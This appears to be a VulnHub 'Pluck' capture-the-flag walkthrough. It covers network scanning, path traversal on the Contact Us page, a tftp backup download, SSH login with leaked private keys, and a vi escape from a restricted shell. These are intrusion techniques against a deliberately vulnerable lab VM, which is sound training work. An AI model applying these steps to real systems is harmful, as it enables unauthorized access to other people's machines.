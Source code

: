 # Pluck

## 1.Scan Network

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:e8:d3:70	VMware, Inc.
192.168.127.254	00:50:56:eb:a0:df	VMware, Inc.
```

The IP address is `192.168.127.133`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,5355 -sV -sC -v -oN nmap.out 192.168.127.133

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:87:ba:3e:d7:43:23:bf:4a:6b:9d:ae:63:14:ea:71 (RSA)
|   256 8f:8c:ac:8d:e8:cc:f9:0e:89:f7:5d:a0:6c:28:56:fd (ECDSA)
|_  256 18:98:5a:5a:5c:59:e1:25:70:1c:37:1a:f2:c7:26:fe (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pluck
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   MySQL (unauthorized)
5355/tcp open  llmnr?
MAC Address: 00:0C:29:E8:D3:70 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We first go for port 80 and check the website :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b4b4d9d2-09c4-4692-84df-c265b67b5297)

checking different parts of the page i found `Contact Us` menu which loads the page like this :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/350d1de7-4dd5-451f-850e-115614ce36ca)

i used burp to repeat the process for a path traversal vulnerability and it worked :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2bc65341-4166-40f8-8ab7-e66e4c2ab9f8)

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a65ba4fd-84bf-4435-96b2-ecd4abfebae4)


after sending request to `/usr/local/scripts/backup.sh` the contents below showed up :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0211def6-716a-4d36-9dac-77338580233e)


here it says that backups are accessible through tftp, so we can check if we can reach it :

```bash
root@kali: tftp 192.168.127.133
tftp> get /backups/backup.tar
tftp> quit
```

now we extract the backup.tar file and see there are 2 directories in it :

```bash
root@kali: tar -xvf backup.tar
```

navigate to `home` folder and see the contents :


```bash
root@kali: tree .              
.
├── bob
├── CVE-2016-1531.sh
├── paul
│   └── keys
│       ├── id_key1
│       ├── id_key1.pub
│       ├── id_key2
│       ├── id_key2.pub
│       ├── id_key3
│       ├── id_key3.pub
│       ├── id_key4
│       ├── id_key4.pub
│       ├── id_key5
│       ├── id_key5.pub
│       ├── id_key6
│       └── id_key6.pub
└── peter
```

one of the private keys should work, so i checked one by one until i found that `id_key4` works to connect to ssh :

```bash
root@kali: ssh -i id_key4 paul@192.168.127.133
```

after logging in, we do not see a normal shell but some kind of restricted panel with options :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ea73b986-0297-46eb-acb4-863077921902)


## 3.Getting Shell

After looking at out options one intresting is `edit file` since it gives us the VI environment and we know that we can escape the VI to shell :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2224fd5b-3205-42d3-b8f4-221f214536fd)

after that just type :

- :set shell=/bin/bash
- :shell

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ec756748-4464-4c10-83d4-ba4d5f043558)

yes, we just escaped the restircted environment and have a normal shell









